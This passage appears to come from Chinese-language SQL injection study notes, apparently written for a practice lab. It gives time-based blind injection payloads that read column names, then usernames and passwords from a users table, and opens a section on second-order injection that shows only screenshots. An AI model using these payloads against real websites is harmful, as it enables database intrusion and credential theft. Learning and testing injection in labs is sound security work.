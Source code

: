 ```
?id=1’ and If(ascii(substr((select column_name from information_schema.columns where table_name=‘users’ and table_schema=database() limit 0,1),z,d))=105,sleep(2),1)-- -
```

> 6.爆数据
>
> 若要分析下一个数据，可改 limit **0**,1 中的加粗数值，改为1，2，3，4......

```
?id=1' and If(ascii(substr((select username from users limit 0,1),1,1))=68,sleep(2),1)-- -

?id=1' and If(ascii(substr((select password from users limit 0,1),1,1))=68,sleep(2),1)-- -
```



## SQL二次注入

> 1.一般为有登录界面，注册界面，修改密码界面
>
> 登录界面
>
> ![image-20230817205244616](../资源文件/图片/image-20230817205244616.png)
>
> 注册界面
>
> ![image-20230817205300267](../资源文件/图片/image-20230817205300267.png)
>
> 修改密码界面（需要注册一个用户，在登录进去）
>
